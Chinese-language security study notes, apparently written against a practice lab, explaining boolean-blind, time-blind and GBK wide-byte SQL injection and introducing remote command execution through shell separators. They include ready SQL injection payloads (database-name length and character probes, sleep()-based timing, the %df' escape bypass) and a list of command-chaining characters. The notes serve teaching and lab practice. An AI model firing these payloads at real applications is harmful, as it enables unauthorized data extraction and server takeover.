 

### 布尔盲注

布尔即true与false；结果正确与错误显示的页面不同，则猜测有布尔注入

判断：输入kobe正常回显，输入kobe' and 1# 正常回显kobe信息；输入kobe' and 0#  不存在

payload:

```mysql
kobe' and length(database())=7# 
kobe' and ord(substr(database(),1,1))=112# 
#burpsuite跑一下即可，消息操作看搜索型注入部分
```



### 时间盲注

利用`sleep()`或`benchmark()`等函数使得命令执行时间变长，与`if(expr1,expr2,expr3)`搭配使用猜解数据库

payload：

```mysql
kobe' and if (length ( database() ) =7 , sleep(5) , 1) #
kobe' and if (ord(substr(database(),1,1))=112 , sleep(5) , 1) #
```



### 宽字节注入

适用：单引号被反斜杠转义&&数据库使用GBK编码(PHP中通过iconv()进行编码转换也可能存在宽字节字符注入)

> eg:
> 比如输入的id被 '包围，输入id=1'，程序不报错，但会多出一个反斜杠(id= '1\'')，此时输入的单引号被反斜杠转义，从而导致输入的单引号无法形成闭合。通常这种情况下此处是不存在sql注入漏洞的。
> 但数据库查询前执行了SET NAMES ‘GBK’语句，会将编码设置为宽字节GBK。造成此处的宽字节漏洞。

原理：反斜杠编码为`%5c`，GBK编码中`%df%5c`为繁体字`運`,由此可绕过反斜杠转义 

利用：宽字节`%df`加`'`

![](https://i.loli.net/2021/02/14/c4a8OsJQV3nrCYb.png)

## RCE

RCE即remote command/code execute让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

以下摘自[CTF下的命令执行漏洞利用及绕过方法总结](https://www.cnblogs.com/SpouseLJ/p/13223967.html)

管道符：

windows：`| `、`||` 、`&`、`&&`

linux：相比windows多了一个`;`,效果同`&`

`|`：直接执行`|`后的语句

![](https://i.loli.net/2021/02/14/fPMCoi2vwrZLqEG.png)
